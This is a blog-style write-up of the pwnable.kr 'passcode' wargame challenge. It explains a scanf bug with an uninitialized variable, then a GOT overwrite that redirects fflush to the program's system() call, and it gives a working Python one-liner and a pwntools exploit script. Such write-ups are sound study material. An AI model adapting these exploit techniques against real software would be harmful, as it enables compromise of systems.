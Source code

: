 ```yaml
---
layout: post
title: "pwnable.kr: passcode"
date: 2018-09-01 18:01:00 -0500
published: true
---
```


Learned a lot from
https://systemoverlord.com/2017/03/19/got-and-plt-for-pwning.html and
https://www.akashtrehan.com/writeups/pwnablekr_todders_bottle/.

The point of this challenge is to teach you about GOT overwrites.

There's a `.plt.got` and `.got.plt` section. I hate computers. `.got.plt`
is the one that you want, as it contains addresses of library functions or
addresses of code to call the linker to go resolve those addresses.

---

```
void welcome(){
	char name[100];
	printf("enter you name : ");
	scanf("%100s", name);
	printf("Welcome %s!\n", name);
}

---

	int passcode1;
	int passcode2;

	printf("enter passcode1 : ");
	scanf("%d", passcode1);
	fflush(stdin);

	// ha! mommy told me that 32bit is vulnerable to bruteforcing :)
	printf("enter passcode2 : ");
	scanf("%d", passcode2);

	printf("checking...\n");
	if(passcode1==338150 && passcode2==13371337){
			printf("Login OK!\n");
			system("/bin/cat flag");
	}
	else{
```

```
passcode@ubuntu:~$ ./passcode
Toddler's Secure Login System 1.0 beta.
enter you name : ian
Welcome ian!
enter passcode1 : 3
Segmentation fault
```

First glance reading the code: `fflush(stdin)` is weird. It can be used to
discard input that's buffered, but not yet printed to screen, but it's
nonstandard.

Second glance: `scanf("%d", passcode1);` should be `&passcode1`.
Recompiling the code throws a warning that makes this obvious. 

Maxing out the name buffer leaves the last 4 bytes in the uninitialized
`passcode1` location. So, we can write any address we want there, and the
first `scanf` will write the next value into that address.

We can't reach `passcode2` via the buffer, though (it's not long enough).
You might consider overwriting the return address of login, but that won't
work, because we can't be able to get through the second `printf()` without
segfaulting.  But! We have the suspicious `fflush`.

`fflush` is libc, so we can do a GOT overwrite and simply replace its
address with that of `system()` in the `text` section of the binary.

So, we:
 * Write `"A"*96 + little_endian(GOT address for fflush)`
 * Write the address we want to jump to (`system` in the binary)

One-liner:
 * `python -c 'print "A"*96 + "\x04\xa0\x04\x08" + "\n" + str(0x80485d7)' | ./passcode`

pwntools script:
```
from pwn import *

# context.log_level = 'debug'

p = process("/home/passcode/passcode")
print util.proc.pidof(p)
# pause() # gdb connect

p.sendline("A"*96 + p32(0x804a004)) # GOT address for fflush

p.sendline(str(0x80485d7)) # address of system()
# p.interactive() # dumps everything. I'm kinda unsure how to fetch the
# output otherwise.
print p.recvall() # jk this does it.
```
